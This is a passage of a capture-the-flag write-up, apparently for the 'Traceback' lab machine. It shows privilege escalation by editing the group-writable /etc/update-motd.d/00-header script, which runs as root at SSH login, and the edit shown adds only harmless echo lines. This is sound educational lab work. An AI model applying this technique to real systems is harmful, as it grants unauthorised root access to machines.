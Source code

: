 The result especially /etc/update-motd.d/ can be used gain access as root. Checking the permission of /etc/update-motd.d

```ruby
sysadmin@traceback:/etc/update-motd.d$ ls -la
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 13 06:57 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 13 06:57 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 13 06:57 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 13 06:57 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 13 06:57 91-release-upgrade
```

Sysadmin has write access for above file. Lets edit 00-header as shown below and relogin using webadmin using SSH.

Using Nano editor, we edit 00-header file as shown below.

```bash
 nano 00-header
Unable to create directory /home/webadmin/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

sysadmin@traceback:/etc/update-motd.d$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\nWelcome to Xh4H land \n"
echo "\n Hacked by Strawhack \n"

```
